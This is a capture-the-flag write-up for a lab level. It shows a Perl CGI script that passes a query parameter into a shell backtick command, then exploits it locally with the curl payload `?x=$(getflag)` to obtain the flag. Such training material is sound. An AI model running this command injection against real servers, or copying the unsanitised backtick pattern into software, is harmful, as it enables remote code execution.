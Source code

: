 We have a file named **level04.pl** who contain:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI script who take a query string argument named x and run echo with this value.
This script is already in **/var/www/** which is the root of apache (port 80).
Its owner is **flag04**.

```
$ ls -la /var/www/level04
-r-xr-x---+ 1 flag04 level04 152 Jan 30 10:36 level04.pl
```

We can try to run the CGI:

```
$ curl localhost/level04/level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The CGI is not executed, this server is not configured to run CGI.
Check the config files of apache and we can find where cgi are handle:

```
$ cat sites-available/level05.conf
<VirtualHost *:4747>
        DocumentRoot    /var/www/level04/
        SuexecUserGroup flag04 level04
        <Directory /var/www/level04>
                Options +ExecCGI
                DirectoryIndex level04.pl
                AllowOverride None
                Order allow,deny
                Allow from all
                AddHandler cgi-script .pl
        </Directory>
</VirtualHost>
```

We can try to use the port 4747.

```
$ curl localhost:4747

```

We got a newline so we can deduce that the CGI is executed.
Lets try with a query string who set x.

```
$ curl localhost:4747/?x=hello
hello
```

Its working like expected so we can try to inject some code.

```
$ curl localhost:4747/?x=\$\(getflag\)
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxxxx
```
